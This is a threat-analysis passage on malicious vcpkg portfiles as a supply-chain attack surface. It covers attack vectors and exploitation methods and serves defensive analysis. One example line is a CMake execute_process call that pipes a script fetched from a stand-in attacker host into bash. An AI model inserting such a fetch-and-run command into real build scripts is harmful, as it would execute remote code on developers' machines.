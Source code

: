 ### 4. Deep Analysis of Attack Surface: Malicious Portfile Content

#### 4.1 Detailed Explanation of the Attack Surface

vcpkg relies on a decentralized model where portfiles, essentially build scripts, are used to define how to acquire, build, and install dependencies. These portfiles are typically stored in a Git repository (often the official `microsoft/vcpkg` repository or a private one). The `vcpkg install` command processes these portfiles, executing the commands specified within them.

The inherent risk lies in the fact that these portfiles, being scripts, can contain arbitrary commands that are executed with the privileges of the user running the `vcpkg install` command. If an attacker can introduce malicious code into a portfile, that code will be executed on the developer's machine during the build process.

This attack surface is particularly concerning because developers often trust the source of their dependencies, including the portfiles. The process of adding and updating dependencies is a routine part of development, making it a potential blind spot for security vigilance.

#### 4.2 Attack Vectors

Several attack vectors could lead to malicious portfile content:

* **Compromised Upstream Repository:** If the official `microsoft/vcpkg` repository or a private repository hosting portfiles is compromised, attackers could directly modify existing portfiles or introduce new ones containing malicious code. This is a high-impact scenario affecting a large number of users.
* **Compromised Individual Developer Accounts:** An attacker gaining access to a developer's account with write access to a portfile repository could inject malicious content. This is more targeted but still a significant risk.
* **Pull Request Manipulation:**  Attackers could submit seemingly legitimate pull requests that subtly introduce malicious code into portfiles. This requires careful review processes to detect.
* **Dependency Confusion/Substitution:**  An attacker could create a malicious portfile for a dependency with a similar name to a legitimate one, hoping developers will mistakenly install the malicious version.
* **Local Modification of Portfiles:** While less likely in a collaborative environment, a malicious insider or an attacker with access to a developer's machine could directly modify local portfiles.

#### 4.3 Technical Details of Exploitation

Malicious code within a portfile can be executed in various ways:

* **Direct Shell Command Execution:** Portfiles often use commands like `cmake`, `configure`, `make`, and custom scripts. Attackers can inject malicious shell commands within these steps. For example, a command to download and execute a remote script:
    ```cmake
    execute_process(COMMAND curl -sSL https://attacker.com/malicious.sh | bash)
    ```
* **Scripting Language Exploitation:** Portfiles can utilize scripting languages like PowerShell or Bash. Attackers can embed malicious code within these scripts.
* **Binary Planting:**  A malicious portfile could download and place a malicious executable in a location that will be executed later in the build process or by the installed application.
* **Environment Variable Manipulation:**  Attackers could manipulate environment variables within the portfile to influence the build process in a malicious way.
